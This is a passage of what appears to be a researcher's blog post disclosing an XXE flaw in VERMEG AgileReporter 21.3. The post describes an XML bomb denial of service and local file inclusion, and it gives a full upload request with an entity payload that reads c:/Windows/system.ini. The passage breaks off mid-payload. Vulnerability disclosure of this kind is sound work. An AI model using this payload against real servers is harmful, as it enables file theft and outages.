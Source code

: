 | [XXE in AgileReporter 21.3 by VERMEG](//crashpark.weebly.com/blog/xxe-in-agilereporter-213-by-vermeg) 6/29/2022  [0 Comments](//crashpark.weebly.com/blog/xxe-in-agilereporter-213-by-vermeg#comments)    **Local file inclusion**, **Directory Listing**, **Denial of Service** though XML External entity (XXE) injection.Note: Only Admin user is able to expolit the vulnerability.  1. DoS:The XML parser in "Config Package Bindind" --> "Manage Execution Groups" option is vulnerable to XXE. An uploaded file with XML Bomb caused Denial of Service for hours. **Uploading the malicious xml file and the content of it:**   Picture    Picture   source and copyable version:*<https://en.wikipedia.org/wiki/Billion_laughs_attack>* The web application (not only this page) was unavaiable for hours:  Picture   So this was the low hanging fruit. Realizing that the webapp expects an xml file as a souce of data and upload an XML bomb. But there are possibilities to exploit this vulnerability to retrieve sensitive data from the server.So there is an "Export button" next to "Import file button". This was my sample to upload more Execution Groups and their additional details. The easies way to show the LFI and Directory listing is putting the Requests and Reposes here.Local File Inclusion and Directory listing:I was able to exploit the vulnerability to perform Directory listing and Local File Inclusion. In this way **I was able to access the file system (system files and user data also) and the content of mounted drives**, so the process were running with a higher privilege. The method was the same but the uploaded file was a modified version of a previously exported “Execution Group”. In this way I could declare an entity (highlighted with green) and call it later in the document. In this way I got the content of c:/Windows/system.ini after calling &xxe; variable in the response. 2. LFIRequest POST /agilereporter/core/page/admin/config/configPackageBinding.xhtml?dswid=-3091 HTTP/1.1Host: ...removed by testerCookie: primefaces.download=true; JSESSIONID=0C-36ywhTHY\_iTtHmixjOwS5qt8jhSSDg3va51N5.sgazrapp008; ApplicationGatewayAffinityCORS=a317a76f28f83936cb54aa5701a2aabd; ApplicationGatewayAffinity=a317a76f28f83936cb54aa5701a2aabdUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0Accept: application/xml, text/xml, \*/\*; q=0.01Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateFaces-Request: partial/ajaxX-Requested-With: XMLHttpRequestContent-Type: multipart/form-data; boundary=---------------------------22114693211599442001093007703Content-Length: 11355Origin: https:// ...removed by testerDnt: 1Referer: https://...removed by testerSec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originTe: trailersConnection: close-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm"importFileForm-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm:ImportInfoTable\_rppDD"10-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm:ImportInfoTable\_scrollState"0,0-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.ViewState"-1207254338988663714:6479361099775717792-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.ClientWindow"-3091-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.partial.ajax"true-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.partial.execute"importFileForm:importFileUpload-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.source"importFileForm:importFileUpload-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.partial.render"importFileForm:messages importFileForm:listuploadedFileName importFileForm:listimportBtn importFileForm:ImportInfoTable-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm:importFileUpload"; filename="ExecutionGroupExport\_18032022\_xml\_play01.xml"Content-Type: text/xml<?xml version="1.0" encoding="GBK" standalone="yes"?><!DOCTYPE foo [  <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "c:/Windows/system.ini" >]><ExecutionGroupDto xmlns="http://www.lombardrisk.com/ocelot/executionGroup">    <configPrefix>MAS</configPrefix>    <item>        <name>Computeeeee &xxe; &amp; Retrieve R610</name>        <description>Compute &amp; Retrieve R610</description>        <content>{"configPrefix":"MAS","name":"Compute \u0026 Retrieve R610","description":"Compute \u0026 Retrieve